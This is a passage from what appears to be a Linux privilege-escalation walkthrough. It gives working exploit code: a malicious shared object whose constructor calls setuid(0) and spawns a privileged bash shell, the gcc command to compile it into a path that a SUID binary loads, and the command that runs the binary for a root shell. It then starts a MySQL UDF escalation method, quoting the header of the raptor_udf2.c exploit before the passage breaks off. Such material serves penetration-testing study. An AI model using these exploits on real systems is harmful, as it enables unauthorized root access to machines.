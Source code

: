 Say it tries to load an object not found in /home/user/.config

**Creating malicious shared object file \[.so]**

Create that directory and a shared object file with exact name and using the code below

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```

The code above can be compiled to a shared object

```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

Finally execute the binary to get shell

```
/usr/local/bin/suid-so
```

#### Exploiting MYSQL UDF

To use this method, the mysql service should be running as root and the root user of the mysql service doesn't have any password set. Create a C file named raptor\_udf2.c and use the below code

```
/*

* $Id: raptor_udf2.c,v 1.1 2006/01/18 17:58:54 raptor Exp $

*

* raptor_udf2.c - dynamic library for do_system() MySQL UDF

* Copyright (c) 2006 Marco Ivaldi <raptor@0xdeadbeef.info>

*

* This is an helper dynamic library for local privilege escalation through

* MySQL run with root privileges (very bad idea!), slightly modified to work

* with newer versions of the open-source database. Tested on MySQL 4.1.14.

*

* See also: http://www.0xdeadbeef.info/exploits/raptor_udf.c

*

* Starting from MySQL 4.1.10a and MySQL 4.0.24, newer releases include fixes

* for the security vulnerabilities in the handling of User Defined Functions

* (UDFs) reported by Stefano Di Paola <stefano.dipaola@wisec.it>. For further

* details, please refer to:

*
```